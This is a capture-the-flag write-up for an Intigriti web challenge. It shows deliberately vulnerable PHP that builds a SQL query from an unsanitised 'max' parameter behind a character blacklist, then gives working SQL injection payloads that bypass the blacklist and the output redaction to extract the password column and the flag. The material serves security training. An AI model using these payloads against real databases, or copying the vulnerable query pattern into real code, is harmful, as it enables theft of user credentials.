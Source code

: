 Secure Database: https://challenge-0923.intigriti.io/challenge.php
Source:
```
<?php

if (isset($_GET['showsource'])) {
    highlight_file(__FILE__);
    exit();
}

require_once("config.php");

$dsn = "mysql:host=$host;dbname=$db;charset=$charset";
$options = [
    PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    PDO::ATTR_EMULATE_PREPARES   => false,
];

try {
    $pdo = new PDO($dsn, $user, $pass, $options);
} catch (\PDOException $e) {
    exit("Unable to connect to DB");
}

$max = 10;

if (isset($_GET['max']) && !is_array($_GET['max']) && $_GET['max']>0) {
    $max = $_GET['max'];
    $words  = ["'","\"",";","`"," ","a","b","h","k","p","v","x","or","if","case","in","between","join","json","set","=","|","&","%","+","-","<",">","#","/","\r","\n","\t","\v","\f"]; // list of characters to check
    foreach ($words as $w) {
        if (preg_match("#".preg_quote($w)."#i", $max)) {
            exit("H4ckerzzzz");
        } //no weird chars
    }       
}

try{
//seen in production
$stmt = $pdo->prepare("SELECT id, name, email FROM users WHERE id<=$max");
$stmt->execute();
$results = $stmt->fetchAll();
}
catch(\PDOException $e){
    exit("ERROR: BROKEN QUERY");
}
    /* FYI
    CREATE TABLE users (
        id INT AUTO_INCREMENT PRIMARY KEY,
        name VARCHAR(255) NOT NULL,
        email VARCHAR(255) UNIQUE NOT NULL,
        password VARCHAR(255) NOT NULL
    );
    */
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Utenti</title>
    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" rel="stylesheet">
</head>
<div class="container mt-5">

    <h2>Users</h2>

    <table class="table table-bordered">
        <thead>
            <tr>
                <th>ID</th>
                <th>Name</th>
                <th>Email</th>
            </tr>
        </thead>
        <tbody>
            <?php foreach ($results as $row): ?>
                <tr>
                    <td><?= htmlspecialchars(strpos($row['id'],"INTIGRITI")===false?$row['id']:"REDACTED"); ?></td> 
                    <td><?= htmlspecialchars(strpos($row['name'],"INTIGRITI")===false?$row['name']:"REDACTED"); ?></td>
                    <td><?= htmlspecialchars(strpos($row['email'],"INTIGRITI")===false?$row['email']:"REDACTED"); ?></td>
                </tr>
            <?php endforeach; ?>
        </tbody>
    </table>

    <div class="text-center mt-4">
        <!-- Show Source Button -->
        <a href="?showsource=1" class="btn btn-primary">Show Source</a>
    </div>

</div>

<!-- including Bootstrap e jQuery -->
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.5.2/js/bootstrap.min.js"></script>

</body>
</html>
```
+ parameter max is used without any sanitisation in the query. This is a clear indication that we can use this parameter to perform a SQL injection.
```
CREATE TABLE users (
        id INT AUTO_INCREMENT PRIMARY KEY,
        name VARCHAR(255) NOT NULL,
        email VARCHAR(255) UNIQUE NOT NULL,
        password VARCHAR(255) NOT NULL
    );

```
+ Blacklisting mechanism implemented
+ Further more, redaction mechanism that prevents us from seeing the flag in case we manage to successfully execute an SQL injection for the password column. The following keywords are redacted: INTIGRITI. As per the instructions we know that the flag is in the format INTIGRITI{...} so this would replace any value that contains the substring INTIGRITI with REDACTED
+ to perform sqli by bypassing the blacklist mechanism like space, we can either use xor operator(^) or parethesis.
+ https://challenge-0923.intigriti.io/challenge.php?max=1^(1)union(select(id),id,(id)from(users))
the above query executes successfully. we need to try to get the password column without specifying the name of the column because p,a and o are blacklisted.
+ Note:
`SELECT F.n FROM (SELECT 1, 2, 3, ..., m UNION SELECT * FROM table_name)F;` will allow us to access the nth column of table_name without using its name (m is equal to the number of columns of table_name). n is equal 4 in our case, since Password is the fourth column of the table. So:
SELECT F.4 FROM (SELECT 1, 2, 3, 4 UNION SELECT * FROM table_name)F;
that is:
SELECT(F.4)FROM(SELECT(1),(2),(3),(4)UNION(SELECT*FROM(users)))F
Thus, our payload will be:
`1^(1)UNION(SELECT(F.2),(F.3),(F.4)FROM(SELECT(1),(2),(3),(4)UNION(SELECT*FROM(users)))F)`.

+ to bypass the redaction, mysql has a function named MID which can be used to extract a substring from a value.
+ using this function, we will strip of the first character from the flag, which is the i in intigriti, and the rest of them will be outputed.
`1^(1)union(select(F.1),MID(F.3,2,45),(0)from((select(null),2,1,3)union(select*from(users)))F)`

and the flag will be given as output. 
flag: INTIGRITI{bl4ckli5t1ng_1z_n0t_7h3_w4y}
